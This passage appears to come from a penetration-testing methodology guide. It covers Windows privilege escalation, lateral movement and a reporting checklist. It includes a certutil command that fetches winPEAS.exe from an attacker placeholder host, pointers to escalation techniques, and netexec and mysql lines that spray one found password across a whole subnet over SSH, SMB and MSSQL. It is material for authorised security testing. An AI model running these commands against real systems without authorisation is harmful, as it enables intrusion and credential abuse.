 Windows:
```bash
# 1. Basic enumeration
whoami /priv
whoami /groups

# 2. Run WinPEAS 
certutil -urlcache -f http://ATTACKER_IP/winPEAS.exe winPEAS.exe
.\winPEAS.exe

# 3. Exploit obvious wins
# - SeImpersonate → PrintSpoofer/GodPotato
# - AlwaysInstallElevated → MSI exploit
# - Unquoted service path → binary replacement

# 4. If stuck after awhile move on
```

**Lateral Movement:**
```bash
# Test EVERY credential on EVERY service

# Example: Found database password "DbPass2024!"
PASSWORD="DbPass2024!"

# Test on all SSH
netexec ssh 10.10.10.0/24 -u root -p "$PASSWORD"
netexec ssh 10.10.10.0/24 -u admin -p "$PASSWORD"

# Test on all SMB  
netexec smb 10.10.10.0/24 -u administrator -p "$PASSWORD"
netexec smb 10.10.10.0/24 -u admin -p "$PASSWORD"

# Test on all databases
netexec mssql 10.10.10.0/24 -u sa -p "$PASSWORD"
mysql -h TARGET -u root -p"$PASSWORD"

# Test on all web apps (admin panels)
```

### Phase 6: Reporting

Review ALL GhostWriter findings:
```
For each finding:
- [ ] Clear title describing impact
- [ ] Accurate severity with justification
- [ ] Complete description
- [ ] Business impact (money, compliance, operations)
- [ ] At least 3 screenshots showing:
  - Vulnerability exists
  - Exploitation successful
  - Impact demonstrated
- [ ] Complete reproduction steps (copy-paste ready)
- [ ] Specific remediation (not generic "update software")
- [ ] References (CVE, CWE, OWASP, compliance)
```
